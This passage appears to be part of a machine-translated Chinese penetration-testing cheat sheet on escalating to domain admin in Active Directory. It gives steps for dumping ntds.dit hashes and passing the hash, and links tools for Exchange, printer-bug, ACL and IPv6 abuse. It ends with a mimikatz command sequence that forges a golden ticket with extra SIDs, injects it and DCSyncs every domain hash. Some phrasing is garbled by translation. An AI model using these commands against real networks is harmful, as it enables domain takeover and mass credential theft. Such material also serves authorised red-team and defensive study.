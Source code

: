 1.  使用 impacket 或其他工具中的 smbclient.py，我们在本地机器上复制 ntds.dit 和 SYSTEM hive。
2.  使用 impacket 中的 secretsdump.py 并转储哈希。
3.  使用 psexec 或您选择的其他工具来 PTH 并获得域管理员访问权限。

# 滥用交换

*   [滥用来自 DA 的 Exchange one Api 调用](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)
*   [CVE-2020–0688](https://www.zerodayinitiative.com/blog/2020/2/24/cve-2020-0688-remote-code-execution-on-microsoft-exchange-server-through-fixed-cryptographic-keys)
*   [PrivExchange](https://github.com/dirkjanm/PrivExchange) 滥用 Exchange，用你的权限换取域管理员权限

# 武器化打印机 Bug

*   [打印机服务器对域管理员的 Bug](https://www.dionach.com/blog/printer-server-bug-to-domain-administrator/)
*   [NetNTLMtoSilverTicket](https://github.com/NotMedic/NetNTLMtoSilverTicket)

# 滥用 ACL

*   [使用 Active Directory 中的 ACL 提升权限](https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/)
*   [aclpwn.py](https://github.com/fox-it/aclpwn.py)
*   [调用-ACLPwn](https://github.com/fox-it/Invoke-ACLPwn)

# 使用 mitm6 滥用 IPv6

*   [通过 IPv6 危及 IPv4 网络](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/)
*   mitm6

# SID 历史滥用

WUT 是迪斯？:如果我们设法破坏了森林的子域，并且没有启用 [*SID 过滤*](https://www.itprotoday.com/windows-8/sid-filtering) *(大多数情况下没有启用)，我们可以滥用它的权限，将其升级为森林的根域的域管理员。这是可能的，因为 kerberos TGT 票据上的* [*SID 历史*](https://www.itprotoday.com/windows-8/sid-history) *字段定义了“额外的”安全组和特权。*

利用示例:

```
#Get the SID of the Current Domain using PowerView
Get-DomainSID -Domain current.root.domain.local#Get the SID of the Root Domain using PowerView
Get-DomainSID -Domain root.domain.local#Create the Enteprise Admins SID
Format: RootDomainSID-519#Forge "Extra" Golden Ticket using mimikatz
kerberos::golden /user:Administrator /domain:current.root.domain.local /sid:<CurrentDomainSID> /krbtgt:<krbtgtHash> /sids:<EnterpriseAdminsSID> /startoffset:0 /endin:600 /renewmax:10080 /ticket:\path\to\ticket\golden.kirbi#Inject the ticket into memory
kerberos::ptt \path\to\ticket\golden.kirbi#List the DC of the Root Domain
dir \\dc.root.domain.local\C$#Or DCsync and dump the hashes using mimikatz
lsadump::dcsync /domain:root.domain.local /all
```
